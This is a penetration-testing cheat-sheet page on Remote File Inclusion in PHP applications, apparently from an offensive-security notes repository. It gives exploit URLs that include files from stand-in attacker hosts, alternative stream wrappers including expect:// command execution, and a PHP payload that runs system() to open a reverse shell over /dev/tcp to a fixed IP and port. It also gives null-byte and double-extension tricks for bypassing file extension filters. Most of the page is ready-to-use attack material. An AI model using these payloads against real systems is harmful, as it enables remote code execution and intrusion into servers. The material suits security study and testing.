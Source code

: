 # Remote File Inclusion (RFI)

Remote file inclusion (RFI) is the process of including remote files through the exploiting of vulnerable inclusion procedures implemented in the application. The main difference when compared to LFI, is that RFI allows for an external URL to be injected, meaning that an attacker can include a malicious file, such as a PHP shell on their attack host.&#x20;

### Examples

#### Testing for RFI

Quick test for RFI with a PHP file, name this test.php and host using a Python server:

```php
<?php
echo "Hello";
?>
```

If we see the tags then we do not have remote code execution, however, if it says "Hello" then we have code execution.&#x20;

#### Basic Exploitation

```bash
http://localhost/index.php?page=http://someevilhost.com/test.php
```

If RFI doesn't work due to the HTTP wrapper being disabled then we can also try the following wrappers:

```bash
ftp://10.10.10.1/AnyFile
expect://ls
```

#### Obtaining a Shell

The simplest way to obtain a shell is to make a callback to the attacker server:

```bash
http://acme.com/index.php?page=http://attackerserver.com/evil.txt
```

Alternatively, the following commands can be input to a .txt file to obtain code execution:

```php
<?php echo shell_exec("whoami");?>
```

```php
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```

### Notes

* As stated briefly in the [LFI section](local-file-inclusion-lfi.md#additional-notes), it is important in some situations to add a nullbyte `%00` to avoid appending `.php` or another extension like `.config`. If this does not work you can also add a `?`, to ensure that the rest will be interpreted as URL parameters.&#x20;
  * A pretty dirty way of bypassing this is also to name your file with the extension, e.g., `evil.txt.php`

### References <a href="#avoid-extentions" id="avoid-extentions"></a>

{% embed url="https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.2-Testing_for_Remote_File_Inclusion" %}
